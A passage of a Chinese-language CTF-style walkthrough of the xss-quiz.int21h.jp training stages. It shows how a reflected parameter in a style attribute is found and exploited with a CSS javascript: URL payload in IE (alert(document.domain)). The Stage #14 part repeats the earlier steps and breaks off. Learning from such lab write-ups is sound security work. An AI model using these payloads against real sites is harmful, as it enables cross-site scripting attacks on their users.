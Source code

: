 打开拦截，刷新

```
p1=background-color%3Asalmon
```

> 发现只有一个可控参数

**查看回显**

关闭拦截，查看源码

```
<input type="text" name="p1" size="60" style="background-color:salmon" value="background-color:salmon">
```

> 发现两处回显为	style和value
>
> 其中 style 为 css 代码，可以在 IE 通过 background-image:url() 指定伪协议 

**判断能否执行 js**

在 IE 提交 payload

```
background-image:url(javascript:alert(document.domain));
```

> 成功注入

### 1.2.10 Stage #14 通过层叠样式表中的内联注释进行注入

> https://xss-quiz.int21h.jp/stage-_-14.php

**查看可控参数**

打开拦截，刷新

```
p1=background-color%3Asalmon
```

> 只有一个可控参数

**查看回显**

关闭拦截，查看源码

```
<input type="text" name="p1" size="60" style="background-color:salmon" value="background-color:salmon">
```

>发现两处回显为	style和value
>
>其中 style 可以在 IE 通过 background-image:url() 指定伪协议 

**判断能否执行 js**

在 IE 提交 payload

```
background-image:url(javascript:alert(document.domain));
```
